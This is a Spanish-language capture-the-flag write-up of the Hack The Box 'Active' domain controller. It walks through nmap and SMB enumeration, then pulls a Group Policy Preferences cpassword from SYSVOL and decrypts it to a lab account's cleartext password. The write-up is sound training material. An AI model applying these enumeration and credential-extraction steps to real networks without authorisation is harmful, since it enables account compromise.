 ```yaml
---
title: Active
date: 2023-07-08 16:53:00 +/-TTTT
categories: [Windows]
tags: [active directory, smb, gpp, kerberoasting, windows]     # TAG names should always be lowercase
img_path: /assets/HTBRESOURCES/ACTIVE/
image: Active.png
---
```

Máquina de directorio activo, enumeración del servicio SMB, Credenciales GPP y Kerberoasting.

## Enumeración
### Nmap
Empleando el comando `nmap -p- --open 10.10.10.100` podemos escanear todo el rango de puertos existentes y que solo nos reporte los puertos abiertos de la máquina.

Agregando las flags `-sC` y `-sV` a los puertos descubiertos, podemos lanzar una serie de scripts básicos de reconocimiento para ver los servicios que corren para esta máquina y sus respectivas versiones.

```bash
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 -sC -sV -oN target.txt 10.10.10.100
```

```
Nmap scan report for 10.10.10.100
Host is up (0.18s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-02 20:58:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-07-02T20:59:34
|_  start_date: 2023-07-02T20:46:13
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
```

Gracias a que vemos los servicios de DNS, Kerberos, SMB y LDAP expuestos, podemos deducir que nos encontramos ante un DC (Domain Controller).

> Con el comando `crackmapexec smb 10.10.10.100` podemos ver información relevante del DC.
{: .prompt-tip }

![DC_details](Pasted image 20230702170151.png)
- OS: **Windows 6.1 x64**
- Nombre: **DC**
- Dominio: **active**.htb

> Debido a que nos encontramos ante una máquina de Directorio Activo debemos agregar el dominio (active.htb) al archivo _/etc/hosts_ de nuestra máquina de atacante.
{: .prompt-warning}

### DNS
Podemos enumerar el servicio DNS para ver si vemos información interesante o si podemos realizar un ataque de transferencia de zona (AXFR).
```bash
dig any active.htb @10.10.10.100
```
![DNS](Pasted image 20230702202655.png)
Pero no vemos nada de valor, asi que avanzamos al siguiente servicio.

### SMB
Si listamos los recursos disponibles de red con el comando `smbmap -H 10.10.10.100`, sin proporcionar autenticación, podemos ver que tenemos permiso de lectura en el recurso **Replication**.
![SMB1](Pasted image 20230702202838.png)

Listando el contenido dentro de la carpeta **Replication/active.htb** con el comando `smbmap -H 10.10.10.100 -r 'Replication/active.htb'` vemos una serie de carpetas de lo que parece ser un backup de **SYSVOL**.
![SMB2](Pasted image 20230702202945.png)

### Credenciales GPP
![GPP1](gppattack.png)

> GPP (Group Policy Preferences) es una herramienta que proporciona algunas capacidades avanzadas a los administradores para configurar y gestionar la política de cuentas en una red de dominio de Windows.

Estas políticas les permiten configurar cuentas locales, e incrustar credenciales para varios propósitos que de otra manera podrían requerir una contraseña incrustada en un script. Así, cuando se genera una nueva preferencia de directiva de grupo (GPP), se crea un archivo xml (generalmente **Groups.xml**) con los datos de configuración, incluidas las contraseñas asociadas a la GPP, en el recurso compartido **SYSVOL**, que son carpetas de los controladores de dominio accesibles y legibles para todos los usuarios autenticados de dominio.

> Como medida de seguridad, Microsoft cifra la contraseña mediante AES antes de almacenarla como **"cpassword"**. Pero las claves están disponibles públicamente en [MSDN!](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be).
{: .prompt-tip}

_fuente: [https://infosecwriteups.com/attacking-gpp-group-policy-preferences-credentials-active-directory-pentesting-16d9a65fa01a](https://infosecwriteups.com/attacking-gpp-group-policy-preferences-credentials-active-directory-pentesting-16d9a65fa01a)_

El archivo **Groups.xml** lo podemos encontrar en el directorio `Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml`
![GPP2](Pasted image 20230704225052.png)

Despues de descargar el archivo con la flag `--download` en _smbmap_, podemos abrir el archivo XML y ver credenciales de un usuario valido del dominio!
![GPP3](Pasted image 20230704230037.png)
- Usuario: **SVC_TGS**
- Cpassword (contraseña cifrada): **"edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"**

## Explotación
Una vez tenemos el archivo XML con el campo **"Cpassword"**, podemos decifrar la contraseña utilizando la herramienta [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt).

Solo necesitamos clonar el repositorio y darle permisos de ejecución al script `chmod +x gpp-decrypt.py`.

Luego con la flag `-f` le pasamos el archivo XML a decifrar.
```bash
python3 gpp-decrypt.py -f groups.xml
```
![GPP4](Pasted image 20230704230431.png)

Y tenemos credenciales en texto claro!
- Usuario: **active.htb\SVC_TGS**
- Contraseña: **GPPstillStandingStrong2k18**